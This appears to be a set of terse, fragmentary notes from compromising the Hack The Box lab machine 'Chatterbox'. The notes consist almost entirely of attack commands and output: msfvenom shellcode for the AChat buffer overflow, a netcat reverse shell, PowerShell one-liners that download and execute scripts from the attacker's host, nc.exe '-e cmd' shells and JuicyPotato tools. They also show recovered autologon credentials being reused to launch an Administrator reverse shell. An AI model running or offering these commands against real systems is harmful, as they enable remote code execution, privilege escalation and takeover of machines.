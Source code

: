 PORT     STATE SERVICE    VERSION
9255/tcp open  tcpwrapped
9256/tcp open  tcpwrapped



https://www.speedguide.net/port.php?port=9256


Achat is vulnerable to a SEH-based stack buffer overflow, caused by improper bounds checking by AChat.exe. By sending a specially-crafted UDP packet to the default port 9256 to overwrite the SEH handler, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the application to crash.
References: [EDB-36056], [XFDB-100845]


kali@kali:~/htb/boxes/chatterbox/10.10.10.74$ searchsploit achat
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                                                                  | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                                                     | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                                                        | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                                                          | php/webapps/24647.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python


msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

kali@kali:~$ sudo nc -lvvvnp 443
listening on [any] 443 ...

connect to [10.10.14.2] from (UNKNOWN) [10.10.10.74] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred



sudo /usr/bin/impacket-smbserver share $(pwd)


net use \\10.10.14.2\share x:


/opt/privesc/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/privesc/windows/Wind                                                                                                                                                               
ows-Exploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt


[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 


cp /opt/privesc/windows/windows-kernel-exploits/MS16-135/41015.exe .






[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/nc.exe', 'nc.exe')


start /B nc.exe -e cmd 10.10.14.2 1337

powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/JuicyPotato.exe', 'JuicyPotato.exe')


powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-LovelyPotato.ps1')

 msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 --format exe -o rev.exe


https://github.com/TsukiCTF/Lovely-Potato
sleep $((10 * 60))


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/EoP.exe', 'EoP.exe')


https://github.com/ivanitlearning/Juicy-Potato-x86/releases


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/JuicyPotato-Static32.exe', 'JuicyPotato-Static32.exe')


powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1'); Invoke-AllChecks"


*] Checking for Autologon credentials in registry...


DefaultDomainName    :                                                         
DefaultUserName      : Alfred                                                  
DefaultPassword      : Welcome1!                                               
AltDefaultDomainName :                                                         
AltDefaultUserName   :                                                         
AltDefaultPassword   : 



powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.2/winPEAS.bat', 'winpeas.bat')


$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Managment.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/shell.ps1')" -Credential $cred



powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/powershell-rev.ps1')


 msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e -f powershell -o powershell-rev.ps1

 powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/powershell-rev.ps1')


 cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 

 powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1')




powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/privesc.ps1')





```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1')" -Credential $cred
```



Synopsis in the end:
- Use AChat buffer overflow
- Powershell is not stable, copy nishang /opt/nishang/Shells/ powershell reverse shell to be able to run powershell interactive
- Create secure password, we got from winPEAS autologin
- Run process as admin with same password, reverse powershell again for example





powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.6/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 1234"



iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.6/MS16-032.ps1')); Invoke-MS16-032

iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.6/39719.ps1')); Invoke-MS16-032
